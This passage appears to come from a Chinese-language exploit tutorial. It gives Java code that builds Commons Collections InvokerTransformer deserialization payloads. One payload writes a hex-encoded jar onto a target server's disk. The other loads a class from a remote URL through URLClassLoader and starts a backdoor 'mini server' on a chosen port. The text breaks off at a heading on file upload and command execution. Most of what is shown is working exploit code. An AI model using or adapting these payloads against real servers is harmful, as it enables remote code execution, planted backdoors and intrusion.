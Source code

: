 这一步生成上传jar包的Payload

```
public static byte[] generateServerPayload(String remotePath) throws Exception {
    final Transformer[] transformers = new Transformer[] {
            new ConstantTransformer(FileOutputStream.class),
            new InvokerTransformer("getConstructor",
                    new Class[] { Class[].class },
                    new Object[] { new Class[] { String.class } }),
            new InvokerTransformer("newInstance",
                    new Class[] { Object[].class },
                    new Object[] { new Object[] { remotePath } }),
            new InvokerTransformer("write", new Class[] { byte[].class },
                    new Object[] { Utils.hexStringToBytes(SERVER_JAR) }),
            new ConstantTransformer(1) };
    return generateObject(transformers);
}

```

发送到目标服务器写入jar包

3.发送Payload启动目标服务器上的迷你服务器
-------------------------

生成启动服务器的Payload

```
public static byte[] generateStartPayload(String remoteClassPath, String remotePath, int port) throws Exception {
    final Transformer[] transformers = new Transformer[] {
            new ConstantTransformer(URLClassLoader.class),
            new InvokerTransformer("getConstructor",
                    new Class[] { Class[].class },
                    new Object[] { new Class[] { URL[].class } }),
            new InvokerTransformer("newInstance",
                    new Class[] { Object[].class },
                    new Object[] { new Object[] { new URL[] { new URL(remoteClassPath) } } }),
            new InvokerTransformer("loadClass",
                    new Class[] { String.class },
                    new Object[] { "org.heysec.exp.Server" }),
            new InvokerTransformer("getMethod",
                    new Class[] { String.class, Class[].class },
                    new Object[] { "start", new Class[] { int.class, String.class } }),
            new InvokerTransformer("invoke",
                    new Class[] { Object.class, Object[].class },
                    new Object[] { null, new Object[] { port, remotePath } }) };
    return generateObject(transformers);
}

```

发送到目标服务器启动迷你服务器

4.使用二进制文件上传和命令执行功能
------------------
